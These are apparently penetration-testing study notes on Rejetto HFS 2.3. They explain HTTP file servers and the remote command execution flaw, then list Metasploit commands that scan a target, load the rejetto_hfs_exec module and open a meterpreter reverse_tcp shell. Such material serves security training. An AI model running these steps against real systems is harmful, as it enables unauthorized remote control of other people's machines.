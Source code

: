 ## What is a HTTP File Server (HFS)
* A web server that is designed for file and document sharing.
* Typically runs on port 80 or 443 and utilizes HTTP protocol for the communication
* **What tool is used**
* Rejetto HFS ---> Free and open-source HTTP file server --> Can be setup both on Windows and Linux.
* **what is the vulnerability**
* Rejetto HFS V2.3 --> Vulnerable to a remote command execution attack.
* MSF has an exploit module for the HFS vulnerability.

* **Difference between a web server and HTTP file server**
* HTTP file server can share the files but cannot host a website dynamically like a web server can do.
* They may lack features required for running dynamic web applications, such as server-side scripting, database connectivity, or handling complex routing and request handling.
* For most web applications, especially those involving user authentication, database interaction, or complex business logic, a more feature-rich web server or application server would be necessary.
* Eg. of a web server: APache, Nginx, Microsoft IIS, etc.
* Eg. of a HTTP file server: Rejetto HFS.

* PRACTICAL
* `service postgresql start && msfconsole`
* `workspace -a [name]`
* `setg rhosts [IP]`
* `set rhosts [IP]`
* `db_nmap -sS -sV -O [IP]` --> To see the version of HFS
* `search type:exploit name:rejetto`
* `use exploit/windows/http/rejetto_hfs_exec`
* Description:
* Rejetto HttpFileServer (HFS) is vulnerable to remote command execution attack due to a poor regex in the file ParserLib.pas.
* This module exploits the HFS scripting commands by using '%00' to bypass the filtering.
* This module has been tested successfully on HFS 2.3b over Windows XP SP3, Windows 7 SP1 and Windows 8.
* `set payload windows/x64/meterpreter/reverse_tcp` --> by default x86 meterpreter session.
* `run`
